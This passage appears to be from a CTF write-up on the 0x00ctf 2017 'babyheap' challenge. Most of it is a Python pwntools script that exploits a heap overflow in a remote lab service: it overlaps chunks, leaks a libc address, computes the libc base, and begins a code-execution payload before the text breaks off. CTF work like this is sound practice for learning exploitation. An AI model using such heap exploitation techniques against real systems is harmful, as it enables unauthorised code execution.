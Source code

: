   

Actually this is a challenge from `heap`del `0x00ctf 2017`, there are many explanations on the internet, because it is somewhat long I will leave a [reference](https://0x00sec.org/t/0x00ctf-writeup-babyheap-left/5314) and we will move on to the script

```
#!/usr/bin/python3
from pwn import remote, p64, p16

shell = remote("10.13.37.10", 5555)

def add(size, data):
    shell.sendlineafter(b"6. exit", b"1")
    shell.sendlineafter(b"size:", str(size).encode())
    shell.sendlineafter(b"username:", data)

def edit(idx, mode, data):
    shell.sendline(b"2")
    shell.sendlineafter(b"2. insecure edit", str(mode).encode())  
    shell.sendlineafter(b"index:", str(idx).encode())
    shell.sendlineafter(b"username:", data)
    shell.recvuntil(b"6. exit")

def ban(idx):
    shell.sendline(b"3")
    shell.sendlineafter(b"index:", str(idx).encode())
    shell.recvuntil(b"6. exit")

def change(data):
    shell.sendline(b"4")
    shell.sendlineafter(b"name:", data)
    shell.recvuntil(b"6. exit")

shell.sendlineafter(b"name:", b"A" * 8)

add(0x88, b"A" * 0x88)
add(0x100, b"A" * 8)

payload  = b"A" * 0x160
payload += p64(0)
payload += p64(0x21)

add(0x500, payload)
add(0x88, b"A" * 8)

shell.recv()
ban(2)

payload  = b""
payload += b"A" * 0x88
payload += p16(0x281)

edit(0, 2, payload)

shell.recv()
shell.sendline(b"5")
shell.recvline()

leak_read = int(shell.recvline()[:-1], 10)
libc_base = leak_read - 0xf7250

payload  = b""
payload += p64(0) * 3
payload += p64(libc_base + 0x45390)
```